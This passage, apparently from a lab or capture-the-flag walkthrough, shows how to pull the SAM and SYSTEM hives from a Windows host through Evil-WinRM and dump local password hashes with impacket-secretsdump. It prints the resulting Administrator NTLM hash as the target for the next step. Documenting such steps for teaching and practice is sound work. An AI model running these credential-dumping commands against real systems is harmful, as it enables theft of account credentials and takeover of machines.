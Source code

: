 ```powershell
download sam
download system
```

![dump](docs/dumpsave%20stap%2013.png)

And now when you `exit` the `Evil-winRM` you can check with `ls` if the files are present.

Now, lets dump the hashes locally:

```bash
impacket-secretsdump -sam sam -system system local
```

This is what came out of the dump. Alof of information but remember we want the `Administrator` `NTLM` hash. The hash is the last bit of the line.

```
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
